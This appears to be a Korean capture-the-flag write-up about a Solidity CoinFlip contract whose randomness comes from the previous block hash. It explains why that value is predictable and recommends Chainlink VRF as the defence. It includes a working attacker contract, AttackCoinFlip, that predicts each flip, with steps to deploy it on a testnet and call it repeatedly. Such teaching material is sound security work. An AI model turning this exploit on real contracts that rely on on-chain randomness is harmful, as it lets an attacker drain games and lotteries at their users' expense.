 ```solidity
contract CoinFlip {
  // ...
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

-   **예측 가능한 난수**: 이 컨트랙트는 동전의 앞/뒤를 결정하기 위해 `block.blockhash(block.number - 1)` 값을 사용합니다. `blockhash`는 이전 블록의 해시값으로, 블록체인 상에 공개되어 있는 데이터입니다. 즉, **결과값이 나오기 전에 누구나 미리 예측할 수 있는 값**이라는 의미입니다.
-   블록체인은 결정론적(deterministic) 시스템이기 때문에, 컨트랙트 내부에서 `block.timestamp`, `block.number`, `block.blockhash` 등과 같은 변수만을 사용하여 안전한 난수를 생성하는 것은 불가능합니다.

### 공격 시나리오

1.  **공격용 스마트 컨트랙트 작성**: `CoinFlip` 컨트랙트와 동일한 로직으로 동전의 면을 계산하는 함수를 가진 별도의 공격 컨트랙트를 작성합니다.

    ```solidity
    contract AttackCoinFlip {
        function predict(address _coinFlipAddress) public returns (bool) {
            uint256 blockValue = uint256(block.blockhash(block.number - 1));
            uint256 coinFlip = blockValue / CoinFlip(_coinFlipAddress).FACTOR();
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

        function attack(address _coinFlipAddress) public {
            bool prediction = predict(_coinFlipAddress);
            CoinFlip(_coinFlipAddress).flip(prediction);
        }
    }
    ```

2.  **공격 컨트랙트 배포**: 작성한 `AttackCoinFlip` 컨트랙트를 Sepolia 테스트넷에 배포합니다.
3.  **공격 실행**: 배포된 공격 컨트랙트의 `attack()` 함수를 10번 호출합니다. `attack()` 함수는 다음 블록이 채굴되기 전에 `CoinFlip` 컨트랙트와 동일한 방법으로 결과를 예측하고, 그 예측값을 `flip()` 함수에 전달합니다. 이 모든 과정이 하나의 트랜잭션 안에서 일어나므로, `block.number`는 동일하게 유지되어 예측은 100% 성공하게 됩니다.

### 방어 방법

-   블록체인 상에서 안전한 난수가 필요할 때는 **체인링크(Chainlink) VRF(Verifiable Random Function)** 와 같은 외부 오라클(Oracle) 서비스를 사용해야 합니다. 오라클은 블록체인 외부에서 생성된 검증 가능한 난수를 안전하게 컨트랙트로 전달해 줍니다.

---
